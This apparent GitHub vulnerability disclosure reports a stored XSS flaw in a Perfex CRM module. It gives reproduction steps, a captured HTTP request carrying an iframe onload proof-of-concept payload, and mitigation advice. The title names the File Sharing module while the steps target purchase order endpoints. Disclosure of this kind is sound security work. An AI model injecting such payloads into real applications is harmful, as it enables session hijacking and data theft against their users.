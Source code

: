 # File-Sharing-module-for-Perfex-CRM-XSS

A Stored Cross-Site Scripting (XSS) vulnerability was discovered in the File Sharing module of Perfex CRM. The vulnerability exists in the `content` parameter within the Discussion section. By injecting malicious scripts into this parameter, an attacker can store the script within the application. When the content is viewed by other users, the malicious script is executed in their browsers, potentially leading to the compromise of user data, session hijacking, or other malicious actions.

# Steps to Reproduce:
* Login to the Perfex CRM system with valid credentials.
* Navigate to the following endpoint: `/admin/purchase/purchase_order/`.
* Select any Purchase Order and click on the `Discussion` tab.
* Write any comment and click on `Add Comment`.
* Capture the request using a tool like Burp Suite.
* In the captured request, locate the `content` parameter, replace its value with a malicious payload, and forward the request.

```
POST /admin/purchase/add_comment HTTP/2
Host: localhost
Cookie: _ga=GA1.1.723218010.1723958795; csrf_cookie_name=54dd532b592d3e37eb00c83fea787332; sp_session=48fef5to7od8tvb21ak5q2i34dp9vq59; _ga_2TQZW5L3GV=GS1.1.1723972977.4.1.1723972986.0.0.0
Content-Length: 89
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://perfexmodules.gtssolution.site
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://perfexmodules.gtssolution.site/admin/purchase/purchase_order/4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

csrf_token_name=54dd532b592d3e37eb00c83fea787332&content=<iframe/onload=confirm("XSS")>&rel_id=4&rel_type=pur_order
```
# Mitigation Recommendations:
* Input Validation: Ensure proper sanitization and encoding of user inputs in the content parameter to prevent script injection.
* Output Encoding: Apply output encoding to escape characters that could be interpreted as executable code in browsers.
* Content Security Policy (CSP): Implement a robust Content Security Policy to minimize the impact of potential XSS attacks.
